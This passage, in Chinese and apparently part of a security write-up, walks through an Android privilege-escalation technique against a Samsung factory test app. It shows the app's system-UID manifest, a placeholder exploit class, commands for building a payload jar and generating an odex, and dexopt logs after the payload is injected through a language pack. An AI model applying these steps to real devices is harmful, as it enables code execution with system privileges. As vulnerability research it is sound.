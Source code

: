 要从上述文件中选出一个自动调用的组件.理想情况下,对于整个odex文件仅替换需要的目标.最后选择DeviceTest(/data/dalvik-cache/system@priv-app@DeviceTest.apk@classes.dex) 作为目标.

反编译之后查看manifest文件,可以看到应用确实有sharedUserId=”android.id.system”,并且看到BroadcastReceiver定义, 设备启动或者重启时会激活它.

	<manifest android:sharedUserId="android.uid.system" android:versionCode="1" android:versionName="1.0" package="com.sec.factory" xmlns:android="http://schemas.android.com/apk/res/android">
	       ...
	               <receiver android:name="com.sec.factory.entry.FactoryTestBroadcastReceiver">
	                   <intent-filter>
	                       <action android:name="android.intent.action.MEDIA_SCANNER_FINISHED" />
	                       <data android:scheme="file" />
	                   </intent-filter>
	                   <intent-filter>
	                       <action android:name="android.intent.action.PACKAGE_CHANGED" />
	                       <data android:scheme="package" />
	                   </intent-filter>
	                   <intent-filter>
	                       <action android:name="android.intent.action.PRE_BOOT_COMPLETED" />
	                       <action android:name="android.intent.action.BOOT_COMPLETED" />
	                   </intent-filter>
	                   <intent-filter>
	                       <action android:name="com.sec.atd.request_reconnect" />
	                       <action android:name="android.intent.action.CSC_MODEM_SETTING" />
	                   </intent-filter>
	               </receiver>

现在需要为com.sec.factory.entry.FactoryTestBroadcastReceiver生成一个odex文件,exploit 代码如下:

	➜cat FactoryTestBroadcastReceiver.java | head
       
	       package com.sec.factory.entry;
	       import java.lang.Class;
	       import java.io.File;
	       import android.content.BroadcastReceiver;
	       import android.content.Context;
	       import android.content.Intent;
	       import android.util.Log;
       
	       public class FactoryTestBroadcastReceiver extends BroadcastReceiver {
	          //Exploit code here
	       }

创建完payload之后,我们可以通过DalvikExchange (dx)工具编译并运行它用来获取一个包含dalvik 字节代码的.jar文件.再进行一些优化,将jar push到设备生成odex

	ANDROID_DATA=/data/local/tmp dalvikvm -cp /data/local/tmp/<payload.jar>
	 com.sec.factory.entry.FactoryTestBroadcastReceiver
	 
缓存文件所在目录,shell权限可读

	shell@kltevzw:/data/local/tmp/dalvik-cache $ ls -l
	       -rw-r--r-- shell    shell        3024 2014-07-18 14:09  data@local@tmp@payload.jar@classes.dex

将payload注入到我们语言包之后,触发下载并重启.

	D/dalvikvm( 6276): DexOpt: --- BEGIN 'payload.jar' (bootstrap=0) ---
	       D/dalvikvm( 6277): DexOpt: load 10ms, verify+opt 6ms, 112652 bytes
	       D/dalvikvm( 6276): DexOpt: --- END 'payload.jar' (success) ---
	       I/dalvikvm( 6366): DexOpt: source file mod time mismatch (3edeaec0 vs 3ed6b326)
	   